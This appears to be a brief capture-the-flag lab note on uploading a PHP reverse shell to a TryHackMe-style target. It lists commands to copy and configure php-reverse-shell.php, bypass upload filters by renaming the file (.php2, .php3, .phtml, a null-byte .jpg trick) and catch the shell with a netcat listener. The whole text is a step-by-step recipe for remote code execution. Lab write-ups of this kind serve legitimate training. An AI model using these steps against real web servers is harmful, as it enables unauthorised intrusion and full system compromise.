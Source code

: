 PHP Upload file
```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
ip a
vim php-reverse-shell.php
```
change IP and Port:443

If upload file not allowed:
```bash
mv php-reverse-shell.php rev.php2
```
Try to open the file:
http://admin1.vulnnet.thm/fileadmin/user_upload/rev.php2
or right click open in new tab!
! if open as text instead of run it try:
```bash
mv rev.php2 rev.php3
mv rev.php2 rev.phtml
```
If still not allowed try to rename the file from the host!
Still not work?
Try '0 byte' attack
```bash
mv rev.php rev.php%00.jpg
```
[[netcat]]
```bash
nc -nlvp 4444
```

